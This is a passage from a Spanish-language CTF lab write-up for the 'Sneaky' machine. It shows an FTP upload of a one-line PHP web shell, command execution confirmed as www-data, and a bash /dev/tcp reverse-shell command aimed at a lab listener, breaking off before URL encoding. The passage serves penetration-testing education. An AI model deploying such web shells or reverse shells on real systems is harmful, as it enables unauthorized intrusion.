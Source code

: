 Hagámosla más sencilla, montemos el archivo en la raíz:

```bash
ftp> cd dev                                                          
250 Directory successfully changed.
ftp> put jay.txt
local: jay.txt remote: jay.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5 bytes sent in 0.00 secs (110.9730 kB/s)
ftp> 
```

Validemos:

```bash
–» curl -s http://dev.sneakycorp.htb/jay.txt
hola
```

Perfecto, intentemos hacer ejecución de comandos remotamente:

```bash
–» cat locurasdices.php 
<?php $out=shell_exec($_GET['xmd']); echo $out; ?>
```

Y subámoslo:

```bash
ftp> put locurasdices.php
local: locurasdices.php remote: locurasdices.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
51 bytes sent in 0.00 secs (465.4644 kB/s)
ftp>
```

Validamos:

```bash
–» curl -s http://dev.sneakycorp.htb/locurasdices.php?xmd=whoami
www-data
```

Listo, tenemos ejecución de comandos en el sistema, generemos una reverse Shell, nos ponemos en escucha:

```bash
–» nc -nvlp 4433
```

```bash
–» curl -s http://dev.sneakycorp.htb/locurasdices.php?xmd=bash -c 'bash -i >& /dev/tcp/10.10.15.86/4433 0>&1'
```

Pero no sucede nada, pasémosla a [URLencode](https://www.urlencoder.org/):
